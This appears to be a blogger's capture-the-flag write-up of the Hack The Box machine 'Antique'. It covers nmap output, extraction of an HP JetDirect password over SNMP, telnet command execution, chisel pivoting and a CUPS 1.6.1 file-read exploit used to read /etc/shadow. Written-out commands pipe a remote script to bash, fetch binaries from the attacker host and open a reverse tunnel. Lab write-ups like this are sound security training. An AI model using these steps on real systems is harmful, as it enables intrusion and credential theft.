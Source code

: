 # Antique

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/45543cd2-89b3-4c3f-b1a2-8d105107362b)

## Difficulty = Easy
---
Let run our nmap scan :

```sh
# Nmap 7.94 scan initiated Thu Aug 17 12:45:24 2023 as: nmap -p- -sCV -v --min-rate=1000 -T4 -oN nmap.txt 10.10.11.107
Increasing send delay for 10.10.11.107 from 0 to 5 due to 374 out of 934 dropped probes since last increase.
Warning: 10.10.11.107 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.107
Host is up (0.21s latency).
Not shown: 64059 closed tcp ports (conn-refused), 1475 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.94%I=7%D=8/17%Time=64DE4F2F%P=x86_64-pc-linux-gnu%r(NULL
SF:,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetReq
SF:uest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x2
SF:0JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNS
SF:VersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatusR
SF:equestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20J
SF:etDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword:
SF:\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerbe
SF:ros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20J
SF:etDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswor
SF:d:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r
SF:(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDire
SF:ct\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\x
SF:20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalSe
SF:rver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDire
SF:ct\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x20
SF:")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,"
SF:\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirect
SF:\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20")
SF:%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20JetD
SF:irect\n\nPassword:\x20");

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 17 12:50:34 2023 -- 1 IP address (1 host up) scanned in 309.59 seconds
```

We can see that telnet port 23 is opened, let try to connect

![](https://i.imgur.com/XvjeS6x.png)

Unfortunately i tried out different passwords, but to no avail and it breaks connection after each wrong password
"Screams, Enumerate Harder😿"

![](https://i.imgur.com/TVB6pPB.png)

Read out several blogs and articles, but i wasn't sure i would get shell via telnet without having to connect first, which is true.

Then i decided to check for `UDP` ports using `nmap`

```sh
sec-fortress@Pwn-F0rk-3X3C:~/HTB/Antique$ sudo nmap -sU -sCV 10.10.11.107 -v --min-rate=1000 -T4 -oN nmap.txt
[sudo] password for sec-fortress: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-17 12:43 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 12:43
Completed NSE at 12:43, 0.00s elapsed
Initiating NSE at 12:43
Completed NSE at 12:43, 0.00s elapsed
Initiating NSE at 12:43
Completed NSE at 12:43, 0.00s elapsed
Initiating Ping Scan at 12:43
Scanning 10.10.11.107 [4 ports]
Completed Ping Scan at 12:43, 0.41s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:43
Completed Parallel DNS resolution of 1 host. at 12:43, 0.06s elapsed
Initiating UDP Scan at 12:43
Scanning 10.10.11.107 [1000 ports]
Discovered open port 161/udp on 10.10.11.107
Completed UDP Scan at 12:43, 7.41s elapsed (1000 total ports)
Initiating Service scan at 12:43
Scanning 987 services on 10.10.11.107
[............]
```

We discovered port 161/UDP which runs on **SNMP** , let enumerate more

![](https://i.imgur.com/ij2jru5.png)

Great, something similar, a password disclosure, i then decided to follow up this [blog](https://www.irongeek.com/i.php?page=security/networkprinterhacking) which gave me a lead and made me understand better how this works :

>  It seems that the device password for many JetDirects is stored in almost plain text and is accessible via SNMP using the read community name. Most folks leave their SNMP community name as "public" but even it has been change it's likely sniffable. Also try "internal" as the community name as this is the default write community name on many JetDirects. Reports are that on some JetDirects , even if you change the community name, "internal" will still work.

Sweet using this exploit i got the password in hex form :

![](https://i.imgur.com/GFzb5z0.png)

Note that `BITS:` is the password here, copying the hex provided from `BITS:` and decrypting it gives us a password 

![](https://i.imgur.com/i8zOS38.png)

Great now let login

![](https://i.imgur.com/jB8DGq1.png)

I used the question mark `?` to check for enabled commands and we can see that we can use the `exec` command to execute system commands, let try getting a reverse shell via these

![](https://i.imgur.com/0PpC94x.png)

I tried several ways but couldn't get that rev shell, i decided to enumerate more and later found out that , there was another port listening on  this Network, which is port `631` - Internet Printing Protocol(IPP) using the command `netstat -ant`

![](https://i.imgur.com/d7BzEXB.png)

### Pivoting

- We are gonna use a tool called `chisel` , first of all install the chisel binary from [here](https://github.com/jpillora/chisel/releases/tag/v1.8.1) or run this command on your attacker terminal : `curl https://i.jpillora.com/chisel! | bash` , also make sure `chisel` is installed on the attacker machine

![](https://i.imgur.com/jtD7sON.png)

- Now start a python3 server in this same directory and send the `chisel` binary to your target using wget

![](https://i.imgur.com/jvQMiRX.png)

> After running `exec wget 10.10.14.12/chisel` i don't get my shell back so i started up another shell (telnet service), also make sure to grant chisel executable permissions by running `exec chmod +x chisel`

- Now let start up our chisel client and server service in other to get access to the network, Do this :
	- On attacker machine run `chisel server -p 1337 --reverse`
	- On target machine run `exec ./chisel client 10.10.14.12:1337 R:socks`

![](https://i.imgur.com/BS16RHO.png)

- Now open up your `/etc/proxychains4.conf` file with `sudo nano /etc/proxychains4.conf` 

![](https://i.imgur.com/dVrNM2g.png)

- scroll down and # (hash tag) `socks4` , then change the port of `socks5` to port `1080` 

![](https://i.imgur.com/edBUW59.png)

- Save the file with `ctrl + x` and do `proxychains zsh` 

![](https://i.imgur.com/4S4jphb.png)

> Now we can scan the target network using `127.0.0.1` instead of `10.10.11.107` , this time `127.0.0.1` will serve as our target IP because of the proxy

- Running nmap on port `631` gives us a service called `CUPS` running on version `1.6.1`

![](https://i.imgur.com/qvgUpRZ.png)

- type `firefox` on the terminal and paste in `127.0.0.1:631` in the address bar

![](https://i.imgur.com/p1umAyp.png)

- Everywhere seems to be screaming `CUPS 1.6.1` , sooo, i decided to enumerate that first, Make sure to open another browser because Firefox uses a proxy now, which might be a little bit slow

![](https://i.imgur.com/cCzM9DQ.png)

- Great looks like a `root-file read` exploit that allows us to  read important files on this target, you can download an exploit from [here](https://github.com/p1ckzi/CVE-2012-5519) , make sure to read the documentation too
- We will be sending the exploit like we did earlier using `python3` and `wget` 

![](https://i.imgur.com/Qrikf3I.png)

- Now that our target has the exploit run `chmod +x cups-root-file-read.sh` to grant executable permissions, we can now read any file on our target, i will be reading the `/etc/shadow` 

![](https://i.imgur.com/DDGZfpf.png)

- Unfortunately i couldn't crack it cos' of hardware resource, so i just got my flag and went out, moreover SSH wasn't opened 😭

![](https://i.imgur.com/gagWrFW.png)


GG , Printer hacking is one of the greatest concerns of many users as well as many cybersecurity professionals. Printers come weakly configured by default and very few bother securing them. This box showcases some common vulnerabilities of network printers. I really love this box because it opened my eye to how printer works and how mis-configurations could lead to take-overs, Bankaaaaiiii!!!!🎎

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
